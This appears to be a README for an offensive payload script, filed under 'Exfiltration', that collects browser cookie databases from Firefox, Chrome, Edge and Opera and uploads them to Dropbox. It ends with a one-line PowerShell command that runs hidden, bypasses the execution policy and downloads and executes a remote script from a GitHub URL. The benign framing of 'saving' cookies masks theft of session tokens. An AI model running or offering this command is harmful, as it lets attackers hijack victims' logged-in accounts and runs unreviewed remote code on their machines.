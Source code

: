# Export Firefox Cookies Database

This script may come in handy for those who want to quickly save all the cookies of their Browsers session by exporting the database via dropbox accesstoken.

**Category**: Exfiltration

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

This script may come in handy for those who want to quickly save all the cookies of their Browsers session by exporting the database via dropbox accesstoken.

Open a PowerShell, select dynamically the Firefox path adding "browserName_cookies.sqlite" at the end, then set your exfiltration settings i.e. Dropbox access token and so on... then export it, then close the powershell.

## Dependencies

* Firefox must be installed
* Edge must be installed
* Chrome must be installed
* Opera must be installed


All
```powershell
powershell -w h -ep bypass -Command  "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glipper_Scripts/main/Linux/Exfiltration/ExportCookiesBrowsers/exportCookies.ps1').Content"
```